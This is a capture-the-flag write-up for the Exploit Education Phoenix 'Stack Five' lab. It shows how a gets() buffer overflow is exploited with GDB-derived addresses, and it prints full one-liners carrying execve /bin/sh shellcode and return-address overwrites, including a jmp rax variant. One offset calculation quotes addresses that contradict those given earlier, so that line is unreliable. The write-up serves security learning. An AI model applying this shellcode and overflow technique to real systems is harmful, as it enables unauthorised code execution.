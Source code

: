 ```yaml
---
title: "Exploit Education Phoenix : Stack Five"
date: 2023-07-18T18:54:41+02:00
draft: false
tags: [Exploit Development, Reverse Engineering, Exploit Education]
summary: "Writeup on the sixth Phoenix challenge on the Exploit Education website. In this article, we will solve the Stack-Five challenge."
series: ["Exploit Education Phoenix"]
series_order: 6
---
```


{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
Before you look at the solution to the challenges, I invite you to try it for yourself. You can find all the challenges [here](https://exploit.education/phoenix/).
{{< /alert >}}

## Overview of the challenge

The aim of the Phoenix challenges is to analyse the source code of an executable in order to find and exploit a vulnerability. This first series of challenges concerns the stack. 

The first thing to do is to analyse the executable's source code. Looking for a vulnerability to exploit.

```c
char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

First of all, we notice that unlike the other challenges, this one no longer has a structure. What's more, the `complete_level` function that we need to call to complete the challenge is no longer present. As with the previous challenge, the aim of this challenge is to introduce us to the stack overflow technique: [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP). However, this time instead of executing the `complete_level` function we have to execute shellcode to open a shell.

The next thing we notice is the use of the `gets` function. When we look at the documentation for the function using the command: `man gets`, it explains how the function works. The `gets` function retrieves a string of characters from the standard input (`stdin`), each character is written to a buffer until the function detects an `EOF` or a line feed. Finally, when one of these characters is detected, it is replaced by a `\0` to end the string.

The documentation provides us with new information: this function should no longer be used, as it is sensitive to buffer overflow attacks. The function does not know how many characters it will write to the buffer and cannot be used to limit the number of characters copied. If the number of input characters is greater than the size of the buffer, the `gets` function will continue to write to the next memory location.

Now that we've identified the sensitive parts of the source code, all we have to do is abuse the vulnerability to succeed in the challenge.

## Exploiting the vulnerability

To succeed in this challenge, we need to exploit a buffer overflow vulnerability. This will allow us to change the value of the return address, which will allow us to execute shellcode to open a new shell. To exploit the ROP, we need several parameters that we will use when exploiting the buffer overflow:

* Address of buffer vulnerable to buffer overflow
* Address of the memory location containing the return address
* A x86_64 shellcode that allow us to open a new shell.

Using the buffer address and the memory location containing the return address, we can calculate an offset that will tell us how big our malicious character string should be. Next, we add the address of the start of the buffer to our string of characters in order to rewrite the value of the return address. The shellcode in the buffer will be executed and open the shell.

To find all these parameters, we'll use `GDB`.

### Offset calculation

{{< alert cardColor="#e63946" iconColor="white" textColor="white">}}
GDB sometimes shifts stack addresses slightly because of environment variables. This can cause problems when testing a vulnerability outside GDB.
To fix this you need to remove excess environment variables, you can use the `show env` command to show environment variables and `unset env <var_name>` to remove an environment variable. In my case. I had to remove the variables `LINES` and `COLUMNS`.
{{< /alert >}}

To find the address of the buffer, it is possible to fill the buffer and inspect the stack to find the address. To inspect the stack at the right time, we can place a breakpoint just after the `gets` function is called in the `start_level` function.

```console
$ gdb stack-five
$ disass start_level
$ b *0x00000000004005a1
$ run < <(python -c "print 'A'*100")
$ x/100x $rsp
```

![Breakpoint Hit](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/568ef5f5-7fd6-4f88-92ac-a98648db16bf "Breakpoint hit to see the stack.")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/1a3b97af-617e-4b3c-9218-b74e983eb0db "Analysis of the stack")


Thanks to the stack inspection, we now know the buffer address: `0x7FFFFFFFE5E0`. In the stack we can also find the address containing the return address. To do this, we disassemble the `main` function, which calls the `start_level` function. Then we retrieve the address of the instruction just after the `start_level` function is called, since this is the address to which the CPU will return after the `ret` instruction in the `start_level` function.

```console
$ gdb stack-five
$ disass main
```

![Disassembly main](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/071dc082-bd6e-4b4c-876a-e28c82eb6c09 "Disassembly of the `main` function")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/80677305-d3c4-4f86-8937-822bd0742b93 "Analysis of the stack")

We now know that the address of the memory location containing the return address is: `0x7FFFFFFFE668`, since the instruction address is `0x00000000004005c7` and we find this value in the stack.

We can now calculate the offset between the start of the buffer and the location of the return address: `0x7FFFFFFFE648 - 0x7FFFFFFFE5F0 = 0x88 = 136`.

### Constructing the malicious string

We now have all we need to exploit the vulnerability. We can create our malicious string by filling our buffer with a shellcode of 57 bytes that open a shell, then 79 `NOP` to reach the return address and finally adding the address of the buffer.

{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
I didn't create the shellcode myself, you can find it [here](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html). So credit goes to them for this shellcode..
{{< /alert >}}

To make it easier to create the string, we can use Python.

```console 
python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xE0\xE5\xFF\xFF\xFF\x7F'" | ./stack-five
```

![Exploit Result](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/0354295e-54f8-4972-a22d-7694d5fdbbf2 "Result of exploiting the vulnerability.")


Finally, we can see that we've opened a new shell, so we've succeeded in our challenge.

## Make it better

There is a more efficient way of avoiding problems with the buffer address: after calling the `gets` function, the buffer address is in the `rax` register, since the `gets` function, if successful, returns the buffer address. So, rather than writing the buffer address to the return address, we can try to find a `jmp rax` instruction and write the address of this instruction to the return address.

To do this I use Binary Ninja and do a search for the heaxdecimal code `FFE0` which corresponds to the `jmp rax` instruction. We get 2 addresses that point to a `jmp rax` instruction, for our test we'll use the address: `0x4004c3`.

We can now create our new character string.

```console
$ python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xC3\x04\x40'" | ./stack-five
```


